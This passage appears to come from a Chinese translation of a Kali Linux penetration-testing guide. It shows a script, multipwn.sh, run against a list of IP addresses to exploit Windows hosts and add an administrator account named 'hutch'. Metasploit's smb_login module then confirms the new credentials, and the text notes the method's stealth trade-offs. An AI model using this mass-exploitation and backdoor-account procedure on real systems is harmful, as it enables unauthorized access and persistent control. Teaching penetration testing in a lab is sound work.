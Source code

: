 由于载荷不同，此脚本与以前的多线程利用脚本不同。 这里，在成功利用时会依次执行两个命令。 这两个命令中的第一个命令创建一个名为`hutch`的新用户帐户，并定义关联的密码。 第二个命令将新创建的用户帐户添加到本地`Administrators`组：

```
root@KaliLinux:~# ./multipwn.sh 
Usage: #./script <host file> <username> <password> 
root@KaliLinux:~# ./multipwn.sh iplist.txt hutch P@33word 
Exploiting 172.16.36.132 and adding user hutch 
Exploiting 172.16.36.158 and adding user hutch 
Exploiting 172.16.36.225 and adding user hutch 
```

如果在不提供任何参数的情况下执行脚本，脚本将输出相应的用法。 该使用描述表明，该脚本应该以一个参数来执行，该参数指定了包含目标 IP 地址列表的文本文件的文件名。 一旦以这个参数执行，会开始弹出一系列新的终端。 这些终端中的每一个将运行输入列表中的 IP 地址之一的利用序列。 原始执行终端将在执行时输出进程列表，并显是在每个进程上添加的新用户帐户。 在每个终端中完成利用序列之后，可以通过诸如 RDP 的集成终端服务，或通过远程 SMB 认证来访问系统。 为了演示添加了该帐户，Metasploit SMB_Login 辅助模块用于使用新添加的凭据远程登录到受攻击的系统：

```
msf > use auxiliary/scanner/smb/smb_login 
msf  auxiliary(smb_login) > set SMBUser hutch 
SMBUser => hutch 
msf  auxiliary(smb_login) > set SMBPass P@33word 
SMBPass => P@33word 
msf  auxiliary(smb_login) > set RHOSTS 172.16.36.225 
RHOSTS => 172.16.36.225 
msf  auxiliary(smb_login) > run

[*] 172.16.36.225:445 SMB - Starting SMB login bruteforce 
[+] 172.16.36.225:445 - SUCCESSFUL LOGIN (Windows 5.1) hutch :  [STATUS_ SUCCESS] 
[*] Username is case insensitive 
[*] Domain is ignored 
[*] Scanned 1 of 1 hosts (100% complete) 
[*] Auxiliary module execution completed
```

`SMB_Login`辅助模块的结果表明，使用新创建的凭据登录成功。 然后，这个新创建的帐户可以用于进一步的恶意目的，或者可以使用脚本来测试帐户是否存在，来验证漏洞的利用。

### 工作原理

通过在每个利用的系统上添加用户帐户，攻击者可以继续对该系统执行后续操作。 这种方法有优点和缺点。 在受沦陷系统上添加新帐户比攻破现有帐户更快，并且可以立即访问现有的远程服务（如 RDP）。 但是，添加新帐户并不非常隐秘，有时可以触发基于主机的入侵检测系统的警报。
